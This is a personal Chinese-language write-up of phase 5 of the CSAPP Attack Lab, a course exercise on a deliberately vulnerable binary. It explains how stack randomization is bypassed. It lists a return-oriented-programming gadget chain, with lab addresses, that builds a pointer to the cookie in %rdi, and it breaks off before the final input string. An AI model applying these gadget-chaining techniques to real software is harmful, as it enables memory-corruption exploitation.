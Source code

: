  #### phase5
本题我遇到的难点是：由于栈随机化，所以你无法得到准确的存储`cookie`字符串的地址，并将其赋值给`%rdi`,并且官方给出的提示是，攻击链长度为8(不唯一)，所以并不是有限的几步，可以将`rdi`的赋值正确，必须进行8次跳转。
##### 思路的转化：
`40个0`+一个跳转地址，其中跳转地址在`%rsp+0x10`，`%rsp+0x8`存放`cookie`值，然后`getbuf`回收栈空间，然后跳转,跳转到的代码为：
```Assembly
	mov %rsp,%rdi
	push $0x4018fa
	retq
```
运行`ret`后`%rsp+8`所以`ret`前的`%rsp+8`即`cookie`值变为了`%rsp`。但是为什么不能这么做呢，因为栈随机化，你的跳转地址不能是你自定义的，你自定义的函数地址是浮动的，无法准确写入跳转地址中，所以跳转地址一定是gadget，从gadget中用%rsp值相对距离去写入你自定义的函数的地址。
哪些gadget可以实现mov呢并没有，但是我们可以从另一条路走
```Assembly
	mov $0x0,%rdi
	mov %rsp,%rsi
	call add_xy
	mov %rax,%rdi
```
or
```Assembly
	mov %rsp,%rdi
	mov $0x0,%rsi
	call add_xy
	mov %rax,%rdi
```
用这些来实现`mov %rsp,%rdi`,
到这开始我是死活找不出来了，只好查找博客，看看大佬们是怎么做的：
`https://blog.csdn.net/weixin_41256413/article/details/80463280#t15`以这篇大佬写的为参考：
```Assembly
# in addval_190(0x401a06)
movq %rsp,%rax
ret
# in addval_426(0x4019c5)
movq %rax,%rdi
ret
# in addval_219(0x4017ab)
popq %rax
ret
# in getval_481(0x4019dd)
movl %eax,%edx
ret
# in getval_159(0x401a34)
movl %edx,%ecx
ret
# in addval_436(0x401a13)
movl %ecx,%rsi
ret
# in add_xy(0x4019d6)
lea (%rdi,%rsi,1),%rax
retq 
# in addval_426(0x4019c5)
movq %rax,%rdi
ret
```
具体栈为：
![stack](/home/trh/文档/VSC/VSC_CPP/jljqbd-CSAPP-Labs-master/CSAPP-Labs/mylabs/3-attack/stack.png "栈图")
此时的%rsp为在getbuf中执行ret时的值，所以最终的输入代码为：
